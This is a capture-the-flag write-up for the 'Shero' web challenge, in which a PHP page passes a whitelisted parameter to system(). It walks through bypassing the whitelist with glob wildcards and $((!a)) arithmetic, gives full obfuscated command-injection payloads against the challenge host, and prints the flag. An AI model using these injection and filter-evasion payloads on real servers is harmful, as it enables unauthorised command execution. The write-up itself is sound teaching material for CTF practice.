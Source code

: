 # Shero

## Solution 

The goal is to send this to the server:

```
cat | readflag sRPd45w_0
```

Since the initial `cat` is provided, only the pipe character onward needs to be included. 

[Solution](http://challs.nusgreyhats.org:12325/?f=|/??a???a?%20$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))-$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($((!a))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a))))))

## Thought process

On visiting the webpage, the webpage shows the following:

```php
Warning: Undefined array key "f" in /var/www/html/index.php on line 2
<?php
    $file = $_GET['f'];
    if (!$file) highlight_file(__FILE__);

    if (preg_match('#[^.cat!? /\|\-\[\]\(\)\$]#', $file)) {
        die("cat only");
    }

    if (isset($file)) {
        system("cat " . $file);
    }
?>

Deprecated: preg_match(): Passing null to parameter #2 ($subject) of type string is deprecated in /var/www/html/index.php on line 5
```

The webpage takes in a `GET` parameter named `f` that only allows certain whitelisted values.

The line `if (preg_match('#[^.cat!? /\|\-\[\]\(\)\$]#', $file)) {` shows that only these characters are allowed: `. cat!?/|-[]()$`. This can be [verified](http://challs.nusgreyhats.org:12325/?f=gg) by trying a non-whitelisted character in the `f` parameter.

![whitelist only photo](WhitelistOnly.png)

The `system` call seems to suggest some form of bash injection.

The goal is to be able to find something indicative of a flag. Given that the program runs `cat`, this is insufficient to enumerate the files on the server. `ls` or another program is needed. It would also be helpful to have access to `echo` by passing it positional arguments to see what an input gets evaluated as.

Try `/?f=|/???/?c??`, which hopefully evaluates to `/bin/echo`. The `|` pipe character is used so another command can be executed instead of being passed as a positional argument to `cat`.

![echo photo](Echo.png)

It seems `echo` is running, but also running with a few other positional arguments.

It appears that `???/?c??` is expanded to space-delimited files that it has matched. In this case, `echo` was matched first, followed by the other programs. In either case, `echo` works.

Next, try to find where the flag is stored. Try to match `ls` with `/usr/bin/ls` or `/bin/ls`

![ls attempt photo](LsAttempt.png)

`ls` is not the first result. This makes `ls` impossible to match as the first result. However, googling reveals the following alternatives: `/bin/dir`.

![dir attempt photo](BinDirAttempt.png)

`/bin/dir` comes as the second result, with `/bin/cat` coming in first. The second letter can be used to differentiate the two. The result can also be cleaned up by filtering on the first level `bin` folder to return only programs in the `bin` folder.

![successful bin photo](ActualBinDir.png)

The directory structure on the server can now be viewed. The flag can be found at the root directory `/` (after a few trial and error attempts).

![dir root photo](DirRootResult.png)

Note that `/bin/sed` also matches the regex used to match `/bin/dir`, but is provided as a positional argument to `dir`. This will not affect results. The relevant results can be seen after `/:`. Specifically, there is a `flag.txt` and `readflag`.

Would a naive `cat flag.txt` work? Probably not, but worth a try.

![cat flag fail photo](CatFlagFail.png)

There are probably insufficient permissions for the web service process to print the flag directly. The `readflag` file seems to suggest that as well. `cat readflag` and examine its contents.

![cat readflag photo](CatReadFlag.png)

`readflag` seems to be an ELF executable (judging from the start of its contents). Using burpsuite, send the exact same `GET` request to dump out the executable file. Then, disassemble the file.

![readflag disassembly photo](ReadflagDisassembly.png)

It seems that `readflag` takes in a positional argument (as seen in `argv[1]`) and is compared to `s1`. `s1` has  the contents `"sRPd45w_0"` as seen in `strcpy(s1, "sRPd45w_0")`. Therefore, the command to be invoked is `cat | readflag sRPd45w_0` to obtain the flag.

However, the password string contains characters that will not pass the whitelist check. Therefore, another way must be used to obtain the string.

Note that the binary file contains the password string needed. Then, programs that could extract data based off certain byte offsets could be used to print the necessary password string.

An accidental discovery was made with `$[]` while experimenting with the bash terminal. However, `$[]` has been deprecated and is succeeded by `$(())`. `$(())` can be used to generate numbers - for example, `$((!a))` gives 1, and `$((a))`. This happens since `a` is unlikely to be a variable that has a set value, so it defaults to 0. Then, when chained with `--`, `$(( $((!a)) -- $((!a)) ))` would give 2. This can be used to generate arbitrary numbers.

With that in mind, `cut` was the first program of choice. It supports a flag specified with `-c`, allowing users to extract specific offsets of characters. However, it did not work for binary data as it often gave inconsistent results. `cut` also works on offsets relative to the start of each new line, which was not what was needed.

![readflag cut photo](ReadFlagCut.png)

It should be noted that `cut` can still generate letters, just not consistently when it comes to binary data. In this case, it does not sufficiently work.

`printf` also would not work due to `\` not being whitelisted.

However, `head` and `tail` also has a `-c` flag that allows the first N or last N bytes to be extracted respectively. Find an expression for `head` and `tail`:

![usr bin tail photo](BinTail.png)

![usr bin head photop](BinHead.png)

While `tail` has an exact match, `head` does not. However, this will not pose a problem. `head` will process both files, which can be piped into tail to extract the last character. Since the `readflag` binary comes after the `pmap` argument, it will be last in the output of `head` and allow `tail` to work on it.

![head tail chain photo](HeadTailChain.png)

An expression to print out the passwords have been found. The relevant offsets are:

```bash
head readflag -c 8199 | tail -c 1 #s
head readflag -c 8204 | tail -c 1 #R
head readflag -c 8197 | tail -c 1 #P
head readflag -c 8205 | tail -c 1 #d
head readflag -c 8198 | tail -c 1 #4
head readflag -c 8200 | tail -c 1 #5
head readflag -c 8202 | tail -c 1 #w
head readflag -c 8201 | tail -c 1 #_
head readflag -c 8203 | tail -c 1 #0
```

Combining all previously obtained knowledge, printing `s` would look like this: (some spacebars and newline added for clarity)

```bash
$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #s

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #R

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #P

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #d

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #4

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))-$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #5

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #w

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($((!a)))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #_

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a)))))) #0
```

Apply the relevant URL encoding and strip unnecessary spaces to get the solution. It runs the equivalent of 

```bash
cat | readflag sRPd45w_0
```

on the main server.

[Solution](http://challs.nusgreyhats.org:12325/?f=|/??a???a?%20$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))-$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($((!a))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a))))))


<details>
<summary>Flag</summary>
grey{r35p3c7_70_b45h_m4573r_0dd14e9bc3172d16} 
</details>

## Similar challenges I've seen

[GryphonCTF2017](https://github.com/DISMGryphons/GryphonCTF2017-Challenges/tree/master/challenges/pwn/Bashing), based off 33c3 CTF hohoho.

